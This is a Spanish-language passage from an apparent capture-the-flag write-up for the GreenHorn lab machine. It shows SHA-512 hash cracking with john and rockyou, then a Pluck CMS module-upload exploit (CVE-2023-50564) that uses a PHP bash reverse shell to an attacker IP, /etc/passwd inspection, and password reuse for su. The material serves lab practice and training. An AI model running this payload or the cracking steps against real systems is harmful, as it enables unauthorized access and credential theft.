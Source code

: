 vale en http://10.10.11.25:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php encontramos esto:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210211833.png)

vemos un hash y como decia en el anterior script es en sha512 por lo que vamos a intentar crakearlo

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-SHA512
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210212025.png)

vemos la contraseña por lo que ya podemos logearnos 

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210212119.png)

una vez dentro vemos lo siguiente (muy parecido a la maquina mist la verdad)

si buscamos exploits sobre esta version de pluck encontramos esto

[CVE-2023-50564](https://nvd.nist.gov/vuln/detail/CVE-2023-50564)

En corto, somos capaces de instalar un módulo falso. Este módulo podría ser un archivo .zip con código PHP dentro, el cual es interpretado por el sistema. De manera que comprimimos nuestro archivo PHP previamente creado en un archivo .zip

por lo que vamos a crear la revershell

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.16.72/4444 0>&1"'); ?>
```

comprmimos el archivo:

```bash
zip rever.zip rever.php
```

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210212545.png)

y ahora si nos vamos a http://greenhorn.htb/admin.php?action=installmodule y insertamos el .zip

pero antes nos ponemos en escucha con netcat
le damos a subir y pasado un rato

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210213608.png)

estamos dentro

verificamos el /etc/passwd y vemos un usuario juniro 
![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210214048.png)

el cual su clave es la misma que habia en el hash por lo que podemos hacer un su junior 

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/GreenHorn/Pasted-image-20241210214143.png)
y somos junior
